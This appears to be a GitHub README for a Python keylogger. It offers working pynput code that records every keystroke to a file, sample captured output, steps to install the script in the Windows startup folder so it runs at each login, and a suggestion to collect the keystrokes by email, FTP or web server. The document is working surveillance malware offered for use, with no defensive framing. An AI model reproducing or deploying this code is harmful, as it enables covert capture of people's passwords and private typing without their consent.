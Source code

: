 # python3_Keylogger
python3 keylogger

1) install python 3 then install pynput with following command
> python -m pip install pynput
2) output was automatically saved on script directory that was running
3) Use Shell as follow
  3-1) win+R
  3-2) paste shell:startup then enter
  3-3) copy keylogger.py in folder that apeared before
  3-4) change dir to different location

> you can use SMTP Email or FTP Client or Web Server to get KeyStroke
> Good Luck!

```python
from pynput.keyboard import Key, Listener
import logging

log_dir = ""

logging.basicConfig(filename=(log_dir + "keylogs.txt"), \
	level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    logging.info(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()
```
output as follow
```C#
2021-04-10 16:46:43,841: Key.backspace
2021-04-10 16:46:44,298: 'p'
2021-04-10 16:46:44,578: 'y'
2021-04-10 16:46:44,826: 't'
2021-04-10 16:46:44,922: 'h'
2021-04-10 16:46:45,154: 'o'
2021-04-10 16:46:45,354: 'n'
2021-04-10 16:46:45,898: <99>
2021-04-10 16:46:47,178: <193>
2021-04-10 16:46:48,114: Key.shift_r
2021-04-10 16:46:48,474: '+'
2021-04-10 16:46:49,298: Key.backspace
2021-04-10 16:46:50,346: Key.shift_r
```
